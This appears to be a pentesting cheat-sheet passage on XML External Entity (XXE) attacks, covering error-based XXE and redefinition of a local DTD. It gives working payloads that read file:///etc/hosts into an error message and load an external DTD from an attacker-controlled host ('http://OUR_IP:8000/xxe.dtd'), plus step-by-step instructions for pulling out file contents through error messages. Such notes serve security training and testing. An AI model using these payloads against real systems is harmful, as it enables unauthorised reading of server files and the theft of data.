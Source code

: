     Note: In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop)


# Error Based XXE




```
    <!ENTITY % file SYSTEM "file:///etc/hosts">
    <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
    
The above payload defines the file parameter entity and then joins it with an entity that does not exist.

`%nonExistingEntity;` does not exist, so the web application would throw an error saying that 
this entity does not exist, along with our joined %file; as part of the error. 


Now, we can call our external DTD script, and then reference the error entity, as follows:

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>

```

# Error-based with local DTD redefining

If you are not able to reach out to a remote server  and load your DTD , you may be able to redefine the purpose of a parameter value whis is called in a DTD located somewhere in the local machine of the vuln application

The exploitation path is :

### Locate a usefull DTD
- Define a parameter variable with the local path of the DTD file 

- Send the request to Intruder and fuzz for an existing one

- Find a parameter entity defined and **referenced** inside this DTD

### Redefine its purpose

-  Define a parameter variable with the local path of the DTD file 

- Redefine the parameter thats being exploited. The payload will be two entities dynamically generated when this already used parameter referenced
    - a file parameter entity which is the data we want to exfil
    - an eval parameter which then will be referenced and will also dynamically generate an error parameter entity which call a nonexistent SYSTEM file and trigger an error
    - reference the eval parameter 
    - reference the error parameter
